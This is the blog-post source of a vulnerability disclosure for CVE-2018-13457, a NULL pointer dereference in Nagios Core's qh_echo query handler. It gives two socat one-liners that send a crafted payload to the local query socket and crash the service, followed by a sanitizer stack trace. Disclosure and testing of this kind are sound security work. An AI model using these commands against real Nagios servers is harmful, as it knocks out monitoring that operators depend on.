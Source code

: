 ```yaml
---
layout: post
title: "[CVE-2018-13457] Nagios Core qh_echo NULL Pointer Dereference"
excerpt: "A local service denial of service."
modified: 2018-07-09
categories: proof-of-concept
tags: ["nagios"]
comments: true
---
```


# Overview
**qh_echo** in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

# Proof-of-Concept
{% highlight bash %}
$ echo -ne "#echo\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@echo\0" | socat unix-connect:./poc/nagios.qh -
{% endhighlight %}

# Crash Analysis
{% highlight bash %}
#0 0x4cb18b in __interceptor_strcmp.part.60 /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:422
#1 0x554e98 in qh_echo /home/user/nagioscore/base/query-handler.c:29:7
#2 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#3 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#4 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#5 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#6 0x7f183c5f782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#7 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
{% endhighlight %}
